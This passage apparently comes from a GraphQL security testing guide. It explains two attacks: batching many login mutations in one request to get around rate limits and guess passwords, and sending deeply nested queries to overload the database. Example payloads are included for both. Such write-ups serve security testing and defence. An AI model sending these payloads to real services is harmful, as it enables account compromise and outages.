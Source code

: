 The GraphQL specification allows multiple requests to be sent in a single request by batching them together. If the developers did not implement some mechanism to prevent the sending of batch requests, you could potentially bypass the rate limit by sending queries in a single request.

```graphql
mutation { login(input: { user:"a", password:"password" }) { success } }
mutation { login(input: { user:"b", password:"password" }) { success } }
....
mutation { login(input: { user:"z", password:"password" }) { success } }
```

## Denial of service

By default GraphQL does not restrict length of queries. The GraphQL queries can be nested one inside the other and create cascading requests to the database. As a result, nested queries can be performed in order to cause a denial of service attack:

```graphql
query {
  posts {
    title
    comments {
      comment
      user {
        comments {
          user {
            comments {
              comment
              user {
                comments {
                  comment
                  user {
                    comments {
                      comment
                      user {
                      ...
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```

## Excessive errors
